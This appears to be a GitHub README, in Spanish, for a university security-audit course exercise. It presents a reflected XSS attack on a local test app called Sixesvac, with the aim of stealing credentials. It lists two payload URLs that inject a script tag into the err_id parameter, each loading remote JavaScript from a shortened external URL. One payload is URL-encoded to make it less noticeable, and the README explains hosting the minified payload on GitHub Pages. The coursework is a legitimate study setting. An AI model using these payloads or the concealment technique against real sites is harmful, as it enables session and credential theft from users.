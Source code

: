 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73horturl%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (120 caracteres en parámetro de consulta; MÁS discreto mediante codificación URL)

## Cómo funciona
Se utiliza XSS para cargar un script subido a GitHub Pages, un servicio gratuito de GitHub que publica recursos estáticos de un repositorio de GitHub. Para acortar el URL se utiliza un acortador de URL gratuito. Además, el script diseñado para ejecutar el ataque está minificado lo máximo posible, sacrificando compatibilidad con Internet Explorer y navegadores más antiguos donde es necesario, para usar sintaxis y funciones más nuevas que redundan en un código más breve.

## Herramientas usadas
https://www.shorturl.at/shortener.php

https://onlinetexttools.com/url-encode-text
